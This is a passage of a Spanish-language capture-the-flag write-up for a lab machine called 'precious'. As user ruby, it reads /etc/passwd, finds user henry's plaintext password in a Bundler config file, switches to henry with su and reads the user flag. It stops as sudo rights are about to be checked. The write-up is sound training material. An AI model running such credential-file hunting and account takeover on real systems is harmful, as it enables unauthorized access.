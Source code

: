 ```bash
ruby@precious:~$ cat /etc/passwd | grep -E '(/bin/sh|/bin/bash)$'
_______________________________________________________________________
root:x:0:0:root:/root:/bin/bash
henry:x:1000:1000:henry,,,:/home/henry:/bin/bash
ruby:x:1001:1001::/home/ruby:/bin/bash
```
---
Encontramos el usuario `henry`, pero no tenemos acceso al archivo `user.txt` en su directorio home.

```bash
ruby@precious:~$  cd /home/henry/
ruby@precious:/home/henry$ cat user.txt 
_______________________________________________________________________
cat: user.txt: Permission denied
```
---
Buscamos todos los archivos en el directorio `/home/ruby` para encontrar posibles pistas, ignorando errores.

```bash
ruby@precious:~$ find /home/ruby 2>/dev/null
_______________________________________________________________________
/home/ruby
/home/ruby/.bundle
/home/ruby/.bundle/config
/home/ruby/.profile
/home/ruby/.bash_history
/home/ruby/.cache
/home/ruby/.cache/fontconfig
/home/ruby/.cache/fontconfig/CACHEDIR.TAG
/home/ruby/.cache/fontconfig/8750a791-6268-4630-a416-eea4309e7c79-le64.cache-7
/home/ruby/.cache/fontconfig/ef96da78-736b-4d54-855c-6cd6306b88f9-le64.cache-7
/home/ruby/.cache/fontconfig/7fbdb48c-391b-4ace-afa2-3f01182fb901-le64.cache-7
/home/ruby/.cache/fontconfig/cb67f001-8986-4483-92bd-8d975c0d33c3-le64.cache-7
/home/ruby/.bash_logout
/home/ruby/.bashrc
```
---
Descubrimos un archivo de configuración en el directorio oculto `.bundle`, revisando su contenido, vemos que contiene la contraseña del usuario `henry`.

```bash
ruby@precious:~$ cat /home/ruby/.bundle/config
_______________________________________________________________________
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```
---
Con la contraseña, cambiamos a usuario `henry` y leemos la flag `user.txt`.

```bash
ruby@precious:~$ su henry
Password: Q3c1AqGHtoI0aXAYFH
henry@precious:/home/ruby$ cat /home/henry/user.txt 
_______________________________________________________________________
fc1dd8bd3a4c3f******************
```
---
Ahora tenemos que conseguir acceso al superusuario root. Verificamos los comandos que el usuario `henry` puede ejecutar con `sudo`
